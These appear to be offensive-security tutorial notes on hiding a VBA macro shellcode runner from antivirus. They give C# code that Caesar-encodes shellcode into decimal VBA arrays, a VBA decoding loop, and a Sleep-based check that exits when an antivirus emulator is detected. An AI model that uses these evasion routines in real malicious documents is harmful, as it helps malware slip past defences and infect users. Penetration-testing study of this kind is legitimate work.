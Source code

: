 We'll reuse the previous C# project to encrypt the shellcode and then copy the encrypted result into the VBA macro. For a VBA format, we'll use decimal values instead of hexadecimal. 

we need to generate VBA format shellcode and use it in our existing Casesar Cipher C# Helper program. 

Caesar cipher encryption routine:

    1   byte[] encoded = new byte[buf.Length];
    2   for(int i = 0; i < buf.Length; i++)
    3   {
    4     encoded[i] = (byte)(((uint)buf[i] + 2) & 0xFF);
    5   }
    6 
    7   uint counter = 0;
    8 
    9   StringBuilder hex = new StringBuilder(encoded.Length * 2);
    10  foreach(byte b in encoded)
    11  {
    12    hex.AppendFormat("{0:D}, ", b);
    13    counter++;
    14    if(counter % 50 == 0)
    15    {
    16        hex.AppendFormat("_{0}", Environment.NewLine);
    17    }
    18  }
    19  Console.WriteLine("The payload is: " + hex.ToString());

When executing the VBA shellcode runner(in Macro), we must also implement a decryption routine. 

    For i = 0 To UBound(buf)
    buf(i) = buf(i) - 2
    Next i

Using Sleep function to detect antivirus emulator:

    Private Declare PtrSafe Function Sleep Lib "KERNEL32" (ByVal mili As Long) As Long
    ...
    Dim t1 As Date
    Dim t2 As Date
    Dim time As Long
    
    t1 = Now()
    Sleep (2000)
    t2 = Now()
    time = DateDiff("s", t1, t2)
    
    If time < 2 Then
        Exit Function
    End If
    ...

    
